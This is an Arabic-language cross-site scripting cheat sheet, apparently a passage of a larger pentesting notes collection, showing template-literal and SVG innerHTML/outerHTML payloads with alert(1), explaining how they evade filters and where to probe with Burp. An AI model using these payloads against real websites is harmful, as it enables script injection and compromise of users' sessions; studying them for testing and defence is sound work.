 #### **لماذا يعمل؟**
- `${alert(1)}` يُدرج كجزء من القالب.
- `tagName` و`innerHTML` يكملان الحمولة.
- يتجاوز مرشحات القوالب الحرفية.

#### 🔎 **الفكرة:**

- استخدام قوالب جافاسكريبت `template literals` والتي تبدأ بـ `${}` لتضمين تنفيذ مباشر لكود JS.
    

#### 🔧 **مثال عملي:**

```html
<div onmouseover="location=`${alert(1)}<javascript:`">hoverme!</div>
```

#### 🔍 **ماذا يحدث؟**

- `${alert(1)}` يتم تنفيذه مباشرة داخل القالب.
    
- ثم يتم دمجه مع النص التالي ليكون `location = javascript:`.
    
- المتصفح يتبع الرابط وينفذ السكربت.
    

#### 🎯 **نقطة الكشف:**

- فتش عن أكواد فيها:
    
    ```js
    location = `...`
    ```
    
    أو حتى:
    
    ```js
    let url = `${some_var}`
    location = url;
    ```
    
- حاول حقن داخل `${}` باستخدام أدوات مثل Burp أو اليدوي.
   
#### **الخلاصة:**
ناقلات القالب الحرفي فعالة لأنها تستخدم قوالب JavaScript لتضليل المرشحات.

---

##  بديل خصائص Inner & Outer HTML (Inner & Outer HTML Properties Alternative)
{  #ideas_for_url /  #XSS_DOM /  #XSS_Idea_for_SVG_tag  }

#### **الشرح البسيط:**
تُستخدم `innerHTML` و`outerHTML` لإدراج HTML يحتوي على XSS بدلاً من `location`.

#### **الأكواد:**
```
<svg id=<img/src/onerror=alert(1)> onload=head.innerHTML=id>
<svg id=<img/src/onerror=alert(1)> onload=body.outerHTML=id>
```
